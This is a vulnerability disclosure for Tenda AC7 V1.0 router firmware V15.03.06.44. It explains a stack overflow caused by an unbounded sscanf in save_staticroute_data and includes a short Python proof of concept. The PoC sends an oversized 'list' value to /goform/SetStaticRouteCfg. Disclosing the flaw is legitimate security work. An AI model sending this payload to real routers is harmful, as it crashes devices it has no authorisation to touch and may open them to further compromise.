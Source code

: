 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

The Tenda  AC7V1.0 V15.03.06.44 firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `list` variable receives the `list` parameter from a POST request and is later assigned to function `save_staticroute_data`. 

![image-20240318155715410](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318155715410.png)

In the `save_staticroute_data` function, the `buf` (the value of `list`) is passed to `p` and formatted by the `sscanf` function and in the form of `%[^,],%[^,],%[^,],%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `dst_net, net_mask, net_gw, net_ifname`, it will cause a stack overflow.

![image-20240318155846660](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318155846660.png)

![image-20240318155758609](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318155758609.png)

The user-provided `list` can trigger this security vulnerability.

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetStaticRouteCfg"
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a,a,aa"

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318155907718](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318155907718.png)